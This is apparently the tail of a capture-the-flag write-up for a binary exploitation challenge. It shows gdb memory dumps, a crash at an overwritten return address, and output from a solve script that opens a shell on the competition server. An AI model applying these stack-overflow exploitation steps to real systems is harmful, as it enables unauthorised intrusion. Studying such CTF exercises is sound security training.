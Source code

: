 ```
0x804b038 <canary>:	0xc0c0dede	0x00000000	0xf7fa35c0	0xf7fa3d80
0x804b048 <completed.7209>:	0x00000000	0xffffcce8	0x00000000	0x00000000
0x804b058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b088:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```

YES IT WORKS!!!!!!!!!!!!!
```
 ▄▄▄▄▄▄▄▄▄▄▄     ▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄   ▄▄        ▄ 
▐░░░░░░░░░░░▌  ▄█░░░░▌    ▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░░▌      ▐░▌
▐░█▀▀▀▀▀▀▀▀▀  ▐░░▌▐░░▌    ▐░█▀▀▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀▀▀ ▐░█░█▀▀▀▀▀█░▌▐░▌░▌     ▐░▌
▐░▌            ▀▀ ▐░░▌    ▐░▌       ▐░▌▐░▌          ▐░▌▐░▌    ▐░▌▐░▌▐░▌    ▐░▌
▐░▌ ▄▄▄▄▄▄▄▄      ▐░░▌    ▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌ ▐░▌   ▐░▌▐░▌ ▐░▌   ▐░▌
▐░▌▐░░░░░░░░▌     ▐░░▌    ▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░▌  ▐░▌  ▐░▌▐░▌  ▐░▌  ▐░▌
▐░▌ ▀▀▀▀▀▀█░▌     ▐░░▌    ▐░█▀▀▀▀▀▀▀█░▌ ▀▀▀▀▀▀▀▀▀█░▌▐░▌   ▐░▌ ▐░▌▐░▌   ▐░▌ ▐░▌
▐░▌       ▐░▌     ▐░░▌    ▐░▌       ▐░▌          ▐░▌▐░▌    ▐░▌▐░▌▐░▌    ▐░▌▐░▌
▐░█▄▄▄▄▄▄▄█░▌ ▄▄▄▄█░░█▄▄▄ ▐░█▄▄▄▄▄▄▄█░▌ ▄▄▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄█░█░▌▐░▌     ▐░▐░▌
▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░▌      ▐░░▌
 ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀   ▀        ▀▀ 
******************************************************************************
*                        CAN YOU PWN THE G1B50N?                             *
******************************************************************************
Pwn Me => 
Breakpoint 2, 0x0804872a in main ()
(gdb) c
Continuing.

Breakpoint 1, 0x0804872f in main ()
(gdb) c
Continuing.
DISABLING SYSTEM SECURITY...
* BACKDOOR ACTIVATED *
[Detaching after vfork from child process 6905]

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
`[Detaching after vfork from child process 6905]` Just means the shell ran but was killed by gdb

## Netcat
```
$ python solve.py 
244
[+] Opening connection to challenges.csdc20t.ctf.sg on port 10014: Done
 ▄▄▄▄▄▄▄▄▄▄▄     ▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄   ▄▄        ▄ 
▐░░░░░░░░░░░▌  ▄█░░░░▌    ▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░░▌      ▐░▌
▐░█▀▀▀▀▀▀▀▀▀  ▐░░▌▐░░▌    ▐░█▀▀▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀▀▀ ▐░█░█▀▀▀▀▀█░▌▐░▌░▌     ▐░▌
▐░▌            ▀▀ ▐░░▌    ▐░▌       ▐░▌▐░▌          ▐░▌▐░▌    ▐░▌▐░▌▐░▌    ▐░▌
▐░▌ ▄▄▄▄▄▄▄▄      ▐░░▌    ▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌ ▐░▌   ▐░▌▐░▌ ▐░▌   ▐░▌
▐░▌▐░░░░░░░░▌     ▐░░▌    ▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░▌  ▐░▌  ▐░▌▐░▌  ▐░▌  ▐░▌
▐░▌ ▀▀▀▀▀▀█░▌     ▐░░▌    ▐░█▀▀▀▀▀▀▀█░▌ ▀▀▀▀▀▀▀▀▀█░▌▐░▌   ▐░▌ ▐░▌▐░▌   ▐░▌ ▐░▌
▐░▌       ▐░▌     ▐░░▌    ▐░▌       ▐░▌          ▐░▌▐░▌    ▐░▌▐░▌▐░▌    ▐░▌▐░▌
▐░█▄▄▄▄▄▄▄█░▌ ▄▄▄▄█░░█▄▄▄ ▐░█▄▄▄▄▄▄▄█░▌ ▄▄▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄█░█░▌▐░▌     ▐░▐░▌
▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░▌      ▐░░▌
 ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀   ▀        ▀▀ 
******************************************************************************
*                        CAN YOU PWN THE G1B50N?                             *
******************************************************************************
Pwn Me =>
[*] Switching to interactive mode
```